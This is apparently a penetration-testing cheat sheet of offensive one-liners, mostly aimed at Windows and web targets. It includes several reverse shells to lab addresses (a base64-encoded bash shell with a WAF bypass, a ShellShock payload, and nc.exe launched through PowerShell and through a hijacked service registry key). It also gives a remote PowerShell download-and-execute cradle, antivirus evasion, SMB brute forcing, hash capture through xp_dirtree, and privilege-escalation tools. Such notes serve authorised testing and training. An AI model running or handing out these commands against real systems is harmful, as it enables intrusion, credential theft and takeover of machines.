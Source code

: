 # Miscellaneous

##### Cisco Type 7 Password Hash Crack
```
http://www.ifm.net.nz/cookbooks/cisco-ios-enable-secret-password-cracker.html
```

##### Bruteforce SMB
```
cme smb IP -u users.txt -p passwords.txt
```

##### Bruteforce RID
```
cme smb IP -u USER -p PASSWORD --rid-brute
```

##### Dump memory process
```
prodcump.exe -ma PID file.dmp
```

##### Verb Tampering
```
Change HTTP Method to bypass Authentication or check works or not.
```

##### Bypass WAF replacing spaces with ${IFS}
```
echo${IFS}YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4zLzQ0NDQgMD4mMQo=|base64${IFS}-d|bash
```

##### Uncompile compiled Python File
```
mv backup backup.pyc
uncompyle6 backup.pyc
```

##### Mime magic bytes
`````
echo '89 50 4E 47 0D 0A 1A 0A' | xxd -p -r > mime_shell.php.png (Check Networked)
`````


##### Check CMS
```
wappalyzer http://10.10.10.138/writeup/ | jq
```

##### Scanning magento
```
php magescan.phar scan:all http://IP
```

##### Powershell Runas
```
$username = '<username here>'
$password = '<password here>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("10.10.14.9","1234","-e","cmd.exe") -WorkingDirectory C:\Users\Public

```
##### ShellShock
```
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.0.138 4444 >/tmp/f'" http://10.1.10.10/cgi-bin/admin.cgi
```

##### SCP for Windows
```
./pscp.exe -pw '12345' -batch -hostkey 8e:32:52:2e:9c:1d:30:74:2c:56:23:b5:f2:36:d4:87  firefox.exe_191116_172631.dmp  test@10.10.14.4:/home/test/
```

##### SSH Port Forwarding for Windows
```
y:\plink.exe -l userforpf -pw 12345 10.10.14.13 -R 5985:127.0.0.1:5985
```

##### List Services in Registry
```
Get-Childitem HKLM:\SYSTEM\CurrentControlset\Services\wuauserv | format-list
Get-ACL HKLM:\SYSTEM\CurrentControlSet\ | format-list
```
##### Registry Hijacking
```
reg add "HKLM\System\CurrentControlSet\services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\windows\system32\spool\drivers\color\nc.exe 10.10.14.2 9999 -e cmd" /f
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlset\Services\seclogon" /v ImagePath
```
##### Juicy Potato
```
juicypotato.exe -l 10000 -p "C:\Windows\system32\cmd.exe" -t * -a "/c whoami > text" -c {6d8ff8e0-730d-11d4-bf42-00b0d0118b56}
```
##### Volatility
```
volatility -f file ---profile=profile lsadump
```

##### Bypass Antivirus in Windows
```
git clone https://github.com/trustedsec/nps_payload.git
cd nps_payload/
pip install -r requirements.txt
python nps_payload.py

C:\Windows\Microsoft.NET\Framework\v4.0.30319\msbuild.exe \\10.10.14.13\myshare\msbuild_nps.xml

method 2: https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/
```

##### Samba Share
```
apt-get install samba
cd /etc/samba/
vi smb.conf
```
```
[Guest]
        comment = Guest
        path = /tmp/share/
        browseable = yes
        read only = yes
        guest ok = yes
```

##### Powershell x64
```
C:\Windows\SysNative\WindowsPowershell\v1.0\Powershell -c "IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.13/Invoke-PowerShellTcp.ps1')
```

##### Running ps1
```
powershell.exe -ExecutionPolicy Bypass -File .\JAWS.ps1 -OutputFilename JAWS-Enum.txt
```

##### SQL Server XP_Dirtree
```
1;EXEC master..xp_dirtree '\\10.10.14.3\foo' --
```

##### Service binary path exploitation with custom C exploit
```
int main()
{
system("net user Administrator HackedByAydin123@");
return 0;
}

i686-w64-mingw32-gcc taskkill.c -o taskkill.exe
```

##### Accesschk
```
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
accesschk.exe -qdws Users C:\Windows\
```
##### Enable xp_cmdshell with sqsh
```
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go


EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
```
##### Lonely potato
```
lonely.exe * y:\priv.exe
```



